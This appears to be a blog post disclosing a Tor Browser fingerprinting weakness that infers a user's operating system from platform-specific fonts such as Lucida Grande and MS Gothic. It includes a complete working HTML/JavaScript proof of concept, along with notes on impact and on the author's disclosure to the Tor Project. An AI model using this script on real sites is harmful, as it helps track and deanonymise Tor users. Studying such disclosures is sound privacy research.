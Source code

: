 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: 'Through the rendering of some specific Fonts, I discovered that it is possible to identify a users operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.'
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify a user's operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor browser is based on Firefox, with its peculiarities and digital privacy/anonymity promises, in addition to all its engineering to hide the IP from its user, Tor also promises to combat identifications that are linked to a person’s operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it.

However, it is possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete.

More information about this can be found at: [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)


User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-windows.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts...


---

### Impact

Through this technique it is possible to identify the operating system of a user who is using Tor, on a website with low traffic volume, this distinction is enough to exclusively track users, already for a high traffic website, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot.

---

### References

* [https://www.torproject.org/](https://www.torproject.org/)
* [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
* [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
* [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
* [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)
